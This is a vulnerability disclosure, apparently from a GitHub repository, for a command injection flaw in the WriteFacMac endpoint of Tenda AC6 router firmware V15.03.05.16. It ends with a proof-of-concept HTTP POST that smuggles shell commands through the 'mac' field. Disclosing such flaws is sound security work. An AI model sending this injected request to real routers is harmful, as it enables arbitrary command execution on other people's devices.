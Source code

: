 # Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC6

**Affected firmware version:** V15.03.05.16

**Firmware download address:** [[AC6V1.0升级软件_腾达(Tenda)官方网站](https://tenda.com.cn/material/show/102661)](

# Overview

Tenda `AC6 V15.03.05.16` firmware has a verified command execution vulnerability. There is a command injection vulnerability in the WriteFacMac function. An attacker can achieve the purpose of arbitrary command execution by splicing commands.

# Vulnerability details

Call the corresponding function through the `WriteFacMac` route

![image-20250405012045704](WriteFacMac/image-20250405012045704.png)

There is a command injection vulnerability below

![image-20250405012139689](WriteFacMac/image-20250405012139689.png)



# POC

```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

mac=;ls;pwd;

```

![image-20250405012222880](WriteFacMac/image-20250405012222880.png)